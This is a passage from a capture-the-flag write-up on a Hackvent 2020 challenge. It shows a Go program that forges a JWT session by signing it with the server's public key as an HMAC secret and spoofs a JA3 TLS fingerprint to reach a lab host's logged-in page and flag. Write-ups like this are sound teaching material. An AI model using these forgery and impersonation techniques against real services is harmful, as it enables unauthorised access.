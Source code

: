 ```` `` can run commands in a subshell. The limiting factor here is that the
    )
    
    func main() {
    
        hmacSecret, _ := ioutil.ReadFile("public.key")
    
        jwt_token := jwt.NewWithClaims(jwt.SigningMethodHS256, jwt.MapClaims {
            "sub": "santa1337",
            "iat": time.Date(2020, 12, 17, 0, 0, 0, 0, time.UTC).Unix(),
            "exp": time.Date(2021, 12, 1, 0, 0, 0, 0, time.UTC).Unix(),
        })
        jwt_string, _ := jwt_token.SignedString(hmacSecret)
    
        base_url := "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/"
        tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")
        client := &http.Client{Transport: tr}
    
        req, _ := http.NewRequest("GET", base_url, nil)
        req.AddCookie(&http.Cookie{Name: "session", Value: jwt_string})
        resp, _ := client.Do(req)
        body, _ := ioutil.ReadAll(resp.Body)
        fmt.Println(string(body))
    }
    

Running this returns the logged in page, and I can see the flag in a comment:

    
    
    root@kali# go run main.go 
    <!DOCTYPE html>
    <html>
        <head>
            <meta charset="utf-8">
            <title>Santa's Control Panel</title>
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
            <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
            <link href="static/style.css" rel="stylesheet" media="screen">
        </head>
        <!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
        <body class="loggedin">
            <nav class="navtop">
                <div>
                    <h1>Gift Factory Control</h1>
                    <a href="/"><i class="fas fa-home"></i>Home</a>
                    <a href="/logout"><i class="fas fa-sign-out-alt"></i>Logout</a>
                </div>
            </nav>
    ...[snip]...
    

**Flag:`HV20{ja3_h45h_1mp3r50n4710n_15_fun}`**

Just for fun, I downloaded the images and style sheets for the site so it
would render in a browser:

[
![image-20201217144933740](https://0xdfimages.gitlab.io/img/image-20201217144933740.png)
](https://0xdfimages.gitlab.io/img/image-20201217144933740.png)

[_Click for full
````